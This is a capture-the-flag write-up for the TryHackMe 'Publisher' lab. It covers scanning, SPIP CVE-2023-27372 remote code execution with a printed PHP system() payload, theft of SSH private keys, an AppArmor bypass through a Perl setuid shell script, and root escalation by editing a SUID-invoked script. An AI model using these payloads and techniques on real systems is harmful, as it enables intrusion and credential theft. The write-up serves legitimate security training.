









# Publisher — THM

**Tipe:** Linux, Web Application<br>
**Difficulty:** Easy<br>
**OS:** Linux<br>

---

## Preview
A web application using a vulnerable version of the Content Management System SPIP allows for RCE. The privilege escalation vector is in the SUID script. The system is protected by AppArmor, so before executing the PE vector, AppArmor must be bypassed.

## Attack Path Overview
```
Recon -> SPIP Web -> RCE -> Find PE Vectors -> Bypassing AppArmor -> Privilege Escalation
```

---

## 1. Network Scanning
```bash
# Port scan
nmap -sT  -sV -O -sC -T4 -oN Lab/tmp/publisher.nmap 10.80.166.10

Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-27 08:02 +0000
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips

Nmap done: 1 IP address (1 host up) scanned in 50.54 seconds
```
Open port 22 and 80. Port 80 uses Apache server and is created with SPIP. Usually, you can get credentials from http and connect to ssh on port 22.

## 2. Enumeration

```bash
# Directory enumeration
ffuf -u http://publisher.thm/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://publisher.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 4369ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 215ms]
spip                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 212ms]
:: Progress: [62281/62281] :: Job [1/1] :: 187 req/sec :: Duration: [0:05:40] :: Errors: 0 ::
                                                                                               
```
From the enumeration results, there are 3 endpoints: images/, server-status/, and spip/. Since the website uses the spip CMS, server-status is forbidden, and images/ only contains images, so just visit spip/.<br><br>

Visit spip/ 

### View source page from spip/

In the page source, the version of the spip used was `4.2.0` and several endpoints were also found.
```text
/spip/spip.php?rubrique1
/spip/spip.php?page=recherche
/spip/spip.php?page=login&url=spip.php
/spip/spip.php?page=contact
/spip/spip.php?page=backend
/spip/spip.php?page=plan
```

## 3. Initial Access

### CVE Analysis
`CVE-2023-27372` is an unauthenticated PHP code RCE vulnerability in SPIP. One of the vulnerable paths is in the forgot password feature in the `oubli` parameter. The old SPIP used serialized string with serialization -> `s:4:"vuln"` where s for string, 4 is the length of value and "vuln" is the value. In this case, i made the input i entered be considered serialized so that it passed sanitization.<br>
CVE : CVE-2023-27372<br>
CVSS : 9.8 Critical<br><br>
Visit 
<br>
After visiting the login page, go to the forgot password/oubli page. .

### Exploitation
Use [exploit code](code/spipV2.py).
```bash
# example. use the endpoint on the oubli page for url
python3 spipV2 -u http://test -v
```
exploit code requires pip installation with package [requirements](code/requirements.txt).

## 4. Post Exploitation

### Connect via ssh
After the code is executed i get a shell with owner www-data . in this shell i got the user flag <br><br>
After trying several commands, I finally found the accessible id_rsa belonging to the user think
```bash
# ls -la ../../.ssh
[+] Anti-CSRF token found : <REDACTED>
[+] Execute this payload : s:89:"<?php system('echo [' . 'S' . '] ; ' . 'ls -la ../../.ssh' . '; echo [' . 'E' . '] ;');?>";

total 20
drwxr-xr-x 2 think think 4096 Jan 10  2024 .
drwxr-xr-x 8 think think 4096 Feb 10  2024 ..
-rw-r--r-- 1 root  root   569 Jan 10  2024 authorized_keys
-rw-r--r-- 1 think think 2602 Jan 10  2024 id_rsa
-rw-r--r-- 1 think think  569 Jan 10  2024 id_rsa.pub

# cat ../../.ssh/id_rsa
```
`id_rsa` is a private ssh key used for authentication without a password.<br>
On my machine, i run the command
```bash
echo '<PRIVATE_KEY>' > think_id_rsa
chmod 600 think_id_rsa
ssh -i think_id_rsa think@publisher.thm
```
Give permission 600 to the file so that the ssh connection is successful.


## 5. Privilege Escalation
After logging in as think using an SSH key, I attempted to enumerate the system for PE vectors. Instead of using linpeas directly, I tried a basic vector, one of which was manually searching for SUID binaries.
```bash
# find SUID biner
find / -type f -perm -04000 -ls 2>/dev/null
```
Result: 
```bash
think@ip-10-82-138-13:/usr/sbin$ ls run_container 
run_container
think@ip-10-82-138-13:/usr/sbin$ strings run_container 
/lib64/ld-linux-x86-64.so.2
libc.so.6
__stack_chk_fail
execve
/bin/bash
/opt/run_container.sh
```
I used `strings` to read the executable file. The result is that the file executes `/opt/run_container.sh`. With SUID root, the executable file can execute run_container.sh as root. Next, just add the command to /opt/run_container.sh

### AppArmor
The problem is that the target uses the `AppArmor` system. AppArmor is a `Mandatory Access Control` (MAC) system, which is an additional layer of security above the normal permissions that applies rules or access to a program. This means that a process can be prevented from reading, writing, and executing a program even if the normal permissions on Linux allow it. Even if the program belongs to the user running it, if apparmor prohibits it, then the user will still not be able to read or write the file.
```bash
think@ip-10-80-138-152:~$ touch file
touch: cannot touch 'file': Permission denied
think@ip-10-80-138-152:~$ 
```
In the experiment, user think tried to create a file in his home directory but the permission was denied. So I can't add code to /opt/run_container.sh

## 6. Bypass AppArmor
Because most directories and files on the system cannot be accessed, the delivery bypass code is done in the `/dev/shm` directory. Bypass apparmor by using perl code that runs a shell through an executable that is not affected by the AppArmor profile. [ByPass Code](assets/bypass.pl)
```perl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"
```
Usages:
```bash
./bypass.pl
```
With the shell now, I can write, read and execute files found on the PE vector earlier.

## 7. Root Access
Next, add the command to /opt/run_container.sh
```bash
#!/bin/bash
...
prompt_container_id() {
    ls -la /root/.ssh
    read -p "Enter the ID of the container or leave blank to create a new one: " container_id
    validate_container_id "$container_id"
}

# Function to display options and perform actions
select_action() {
    echo ""
    echo "OPTIONS:"
    local container_id="$1"
    PS3="Choose an action for a container: "
    options=("Start Container" "Stop Container" "Restart Container" "Create Container" "Quit")
...
```
The result of this command is the roots id_rsa. So the next step is to replace the previous command with
```bash
...
prompt_container_id() {
    cat /root/.ssh/id_rsa
    read -p "Enter the ID of the container or leave blank to create a new one: " container_id
    validate_container_id "$container_id"
}
...
```
And the result: 

### Shell
After getting the roots id_rsa, the next step is to connect with ssh with the root user.
```bash
echo '<ROOT_ID_RSA>' > root_id_rsa
chmod 600 root_id_rsa
ssh -i root_id_rsa root@publisher.thm
```

Result: 
